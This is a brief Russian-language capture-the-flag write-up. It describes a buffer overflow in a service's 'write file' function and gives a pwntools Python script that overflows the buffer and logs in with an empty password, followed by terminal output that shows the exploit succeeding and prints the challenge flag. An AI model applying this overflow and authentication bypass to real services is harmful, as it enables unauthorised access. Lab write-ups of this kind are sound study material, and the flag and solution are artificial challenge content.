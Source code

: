 ## Шаг первый

Увидел базовую уязвимость `BOF`
И нашел что она находится в `write file`
Написал код на питоне

```
from pwn import *

def exploit():
    io = remote('10.10.11.101', 9001)
    
    io.sendlineafter(b'>>', b'2')
    io.sendlineafter(b'content: ', b'a'*256)
    
    
    io.sendlineafter(b'>>', b'1')
    io.sendlineafter(b'ID:', b'00000000')
    io.sendlineafter(b'password:', b'')
    
    io.recvuntil(b'contains:')
    io.interactive()

if __name__ == "__main__":
    exploit()

```
```
┌──(kali㉿kaliOlymp)-[~/Документы/PoC-Cups-RCE-CVE-exploit-chain]
└─$ python 123.py
[+] Opening connection to 10.10.11.101 on port 9001: Done
[+] Exploit successful! Switching to interactive mode...
[*] Switching to interactive mode
 nto{sup3r_s3cr3t_c0nf1d3ntial_fl4g}
Commands:
        1. Read file
        2. Write file
>> $  

```
